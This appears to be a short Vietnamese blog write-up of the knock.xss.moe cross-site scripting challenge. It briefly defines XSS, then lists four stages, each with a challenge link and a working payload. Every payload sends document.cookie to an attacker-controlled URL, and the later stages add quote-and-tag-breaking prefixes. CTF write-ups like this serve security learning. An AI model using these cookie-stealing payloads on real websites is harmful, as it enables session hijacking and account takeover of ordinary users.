 ```yaml
---
title: "[knock.xss.moe] XSS CHALLENGE"
date: 2019-01-06T18:04:50+07:00
draft: false
slug: KNOCK-XSS
tags: [XSS,knock.xss.moe,writeup]
---
```


---
>**XSS**:<br>
>Cross-Site Scripting (XSS) là một trong những kĩ thuật tấn công phổ biến nhất hiên nay, đồng thời nó cũng là một trong những vấn đề bảo mật quan trọng đối với các nhà phát triển web và cả những người sử dụng web. Bất kì một website nào cho phép người sử dụng đăng thông tin mà không có sự kiểm tra chặt chẽ các đoạn mã nguy hiểm thì đều có thể tiềm ẩn các lỗi XSS.

>- **Link Challage**: [https://knock.xss.moe](https://knock.xss.moe)
>- **Rule**: Send link to bot and get cookie!!! 
>- **Link Request** : `xxxxx.knock.xss.moe/?q=payload`
>- **Thanks for** : [https://www.youtube.com/watch?v=rpHhM2X5jd8](https://www.youtube.com/watch?v=rpHhM2X5jd8)

---
# Stage1[Tutorial]
- Link : [http://8293927d3c84ed42eef26dd9ceaaa3d9bf448dda.knock.xss.moe/](http://8293927d3c84ed42eef26dd9ceaaa3d9bf448dda.knock.xss.moe/)
- Payload : `location=%22http://example.com/?%22%2Bdocument.cookie`

---
# Stage2
- Link : [http://1a31198b4289ff3af4f7195a810c48eba9f6bf28.knock.xss.moe/?q=XSS](http://1a31198b4289ff3af4f7195a810c48eba9f6bf28.knock.xss.moe/?q=XSS)
- Payload : `<script>location='{yourURL}/?se='%2Bdocument.cookie</script>`

---
# Stage3
- Link : [http://68e3b596ebf790e8a781b8d87b84af7eb7b0aeb3.knock.xss.moe/?q=XSS](http://68e3b596ebf790e8a781b8d87b84af7eb7b0aeb3.knock.xss.moe/?q=XSS)
- Payload : `"><script>location='{yourURL}/?se='%2Bdocument.cookie</script>`

---
# Stage4
- Link : [http://2375e1f80fe2ec262a235d594fbcee96dba66710.knock.xss.moe/?q=XSS](http://2375e1f80fe2ec262a235d594fbcee96dba66710.knock.xss.moe/?q=XSS)
- Payload : `'"></a><script>location='{yourURL}/?se='%2Bdocument.cookie</script>`

---